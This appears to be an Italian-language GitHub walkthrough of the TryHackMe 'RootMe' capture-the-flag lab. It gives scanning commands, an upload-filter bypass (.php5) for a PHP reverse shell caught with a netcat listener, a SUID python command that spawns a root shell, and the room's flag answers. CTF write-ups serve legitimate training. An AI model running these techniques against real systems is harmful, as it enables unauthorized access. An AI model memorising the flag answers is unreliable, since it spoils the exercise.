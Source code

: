 # RootMe

_Difficoltà: Easy_

_________

# Task 1 - Deploy the machine

  # Deploy the machine
    No answer needed

__________

# Task 2 - Reconnaissance

  # Scan the machine, how many ports are open?

 - sudo nmap -p- -open -sV -sC -sS -A -T4 -Pn 'TARGET-IP'

  ![Istantanea_2023-07-31_21-44-38](https://github.com/Manganaccio/Manganaccio/assets/137283468/8ef7aa85-2e20-4da3-832f-27460e4bff48)

    Answer: 2
  
  # What version of Apache is running?

    Answer: 2.4.29

  # What service is running on port 22?

    Answer: ssh

  # Find directories on the web server using the GoBuster tool.

    No answer needed

  # What is the hidden directory?

  - gobuster dir -u http://TARGET-IP -w /usr/share/wordlists/dirb/big.txt
  
 ![Istantanea_2023-07-31_21-43-04](https://github.com/Manganaccio/Manganaccio/assets/137283468/5cad19e1-68e4-47a2-838a-8474b28c8f20)

 ![Istantanea_2023-07-31_21-48-16](https://github.com/Manganaccio/Manganaccio/assets/137283468/9c5c27fa-66e7-4551-9bfa-d2ebac51d6df)

     Answer: /panel/

__________

  # Task 3 - Getting a shell

  # user.txt

  - Per ottenere la shell sarà necessario fare l'upload del file reverse-shell.php di PentestMonkey, cambiando l'indirizzo IP (quello della macchina attaccante) e il numero della porta
  - prima di eseguire l'upload cambiare l'estensione del file in "php5" perchè il sito non ammette il caricamento di file in "php"

 ![Istantanea_2023-07-31_21-48-48](https://github.com/Manganaccio/Manganaccio/assets/137283468/5f9520c2-c2ea-4655-abb1-870567231212)

  - in un terminale eseguire il comando: nc -lvnp PORT (la porta da selezionare dovrà essere la medesima inserita nel file reverse-shell)
  - nel browser navigare nella pagina http://TARGET-IP/uploads/ e aprire la reverse-shell caricata in precedenza

 ![Istantanea_2023-07-31_22-16-49](https://github.com/Manganaccio/Manganaccio/assets/137283468/df9f36bc-9f33-4a49-a1e0-f103e1a86703)

  - per trovare la flag user.txt navigare in /var/www

 ![Istantanea_2023-07-31_22-20-53](https://github.com/Manganaccio/Manganaccio/assets/137283468/c9292a59-6c4d-4b69-9232-cab7317020e5)

     Answer: THM{y0u_g0t_a_sh3ll}

_________

# Task 4 - Privilege escalation

# Search for files with SUID permission, which file is weird?

- Selezionare il comando: find / -user root -perm /4000

      Answer: /usr/bin/python

# Find a form to escalate your privileges.

      No answer needed

# root.txt

- Navigare su [GTFOBins](https://gtfobins.github.io/) e nella pagina di python cercare la voce SUID (come suggerito a inizio task)
- nel terminale digitare il comando: /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
- navigare nella cartella root per trovare la flag root.txt o eseguire il comando: cat /root/root.txt

![Istantanea_2023-07-31_22-53-35](https://github.com/Manganaccio/Manganaccio/assets/137283468/ee007094-dd1b-4094-bff5-93938af2d7fa)

      Answer: THM{pr1v1l3g3_3sc4l4t10n}
  

